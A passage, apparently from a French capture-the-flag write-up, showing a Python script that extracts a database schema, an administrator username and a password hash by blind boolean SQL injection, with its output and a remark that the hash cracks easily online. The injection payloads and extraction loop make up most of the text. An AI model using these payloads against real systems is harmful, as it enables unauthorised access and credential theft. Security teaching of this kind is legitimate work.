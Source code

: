 ```python
        r = is_true(f"' OR 1=1 AND (SELECT column_name FROM information_schema.columns WHERE table_name = '{table}' LIMIT 1,1) LIKE '{col+l}%'")
        if r:
            col += l
            print(f"[*] Column: {col}", end="\r")
            break
print(f"[*] Column: {col}")
# Column passwd


user = ""
while len(user) < 13:  # While True
    for l in letters+".":
        r = is_true(f"' OR 1=1 AND (SELECT 1 FROM administrateurs WHERE username LIKE '{user+l}%') = 1")
        if r:
            user += l
            print(f"[*] Username: {user}", end="\r")
            break
print(f"[*] Username: {user}")
# Username (julien.lepers)

pwd = ""
while len(pwd) < 40:  # While True
    for l in letters+".":
        r = is_true(f"' OR 1=1 AND (SELECT 1 FROM administrateurs WHERE passwd LIKE '{pwd+l}%') = 1")
        if r:
            pwd += l
            print(f"[*] Password: {pwd}", end="\r")
            break
print(f"[*] Password: {pwd}")
# Password (ff19f7e740cdecdcc4e3bc182b8c9b8d19a7072c)
```

```
[*] Nombre de tables: 2
[*] Table: administrateurs
[*] Column: username
[*] Column: passwd
[*] Username: julien.lepers
[*] Password: ff19f7e740cdecdcc4e3bc182b8c9b8d19a7072c
```

Nous avons récupéré un compte d'administration, mais le mot de passe semblé hashé. Heureusement, ce dernier est facilement cassable et dfisponible sur [crackstation](https://crackstation.net/).

![crackstation](crackstation.png)
